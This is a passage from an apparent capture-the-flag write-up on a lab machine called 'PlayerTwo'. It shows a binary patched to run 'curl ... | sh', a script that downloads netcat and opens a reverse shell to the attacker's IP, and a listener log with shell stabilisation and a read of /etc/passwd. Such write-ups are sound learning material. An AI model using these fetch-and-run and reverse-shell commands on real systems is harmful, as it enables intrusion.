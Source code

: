 cheating and using GHex!
insert this into bin file > replace current command
curl 10.10.15.20:8090/a | sh

'/home/zweilos/a'
```
#!/bin/sh
curl 10.10.15.20:8090/nc -o /dev/shm/nc
chmod +x /dev/shm/nc
/dev/shm/nc 10.10.15.20 12345 -e /bin/sh
```
between days my ip changed so I had two re-write my payloads...

## Road to User
```
zweilos@kalimaa:~/htb/playertwo$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.20] from (UNKNOWN) [10.10.10.170] 37418
whoami && hostname
www-data
player2
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")';
www-data@player2:/var/www/product/protobs$ ^Z             
[1]+  Stopped                 nc -lvnp 12345
zweilos@kalimaa:~/htb/playertwo$ stty raw -echo;
zweilos@kalimaa:~/htb/playertwo$ fg

www-data@player2:/var/www/product/protobs$ ls -la
total 48
drwxr-xr-x 5 root     root     4096 Dec 16  2019 .
drwxr-xr-x 6 www-data www-data 4096 Dec  1  2019 ..
-rwxr-xr-x 1 www-data www-data 1176 Sep  3  2019 gen_firm_keys.py
-rw-r--r-- 1 www-data www-data 3410 Nov 10  2019 index.php
dr-x------ 2 www-data www-data 4096 Sep  3  2019 keys
drwxr-xr-x 4 www-data www-data 4096 Sep  5  2019 pihsm
-rw-r--r-- 1 root     root     4711 Dec  1  2019 protobs_firmware_v1.0.tar
-rwxr-xr-x 1 www-data www-data  804 Sep  4  2019 sign_firm.py
drwxrwxrwx 2 www-data www-data 4096 Jun 25 02:54 uploads
-rw-r--r-- 1 www-data www-data 1775 Dec 10  2019 verify.php
-rwxr-xr-x 1 www-data www-data  837 Dec  1  2019 verify_signature.py

```
```
www-data@player2:/home$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Jul 27  2019 .
drwxr-xr-x 23 root     root     4096 Sep  5  2019 ..
drwxr-xr-x  6 observer observer 4096 Nov 16  2019 observer
```
```
www-data@player2:/home$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```
